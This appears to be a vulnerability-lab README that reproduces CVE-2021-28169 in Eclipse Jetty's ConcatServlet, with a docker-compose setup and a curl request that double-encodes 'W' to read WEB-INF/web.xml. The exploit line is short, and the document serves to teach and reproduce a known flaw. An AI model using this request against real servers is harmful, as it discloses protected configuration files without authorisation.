


# Jetty Utility Servlets ConcatServlet Double Decoding Information Disclosure Vulnerability (CVE-2021-28169)

[中文版本(Chinese version)](README.zh-cn.md)

Eclipse Jetty is a Java web server and Java Servlet container.

Before version 9.4.40, 10.0.2, 11.0.2, the `ConcatServlet` and `WelcomeFilter` classes in Jetty Servlets are influenced by a double decoding bug. If developers use these two classes manually, attackers can use them to download arbitrary sensitive files in the WEB-INF directory.

Reference links.

- https://github.com/eclipse/jetty.project/security/advisories/GHSA-gwcr-j4wh-j3cq

## Vulnerable Application

Execute the following command to start a Jetty 9.4.40 server.

```
docker-compose up -d
```

After the server starts, visit ``http://your-ip:8080`` to see an example page. This page uses the `ConcatServlet` to optimize the loading of static files:

```
<link rel="stylesheet" href="/static?/css/base.css&/css/app.css">
```

## Exploit

The sensitive file web.xml is not accessible through `/static?/WEB-INF/web.xml`.



Double URL encoding `W` to bypass the restriction:

```
curl -v 'http://your-ip:8080/static?/%2557EB-INF/web.xml'
```


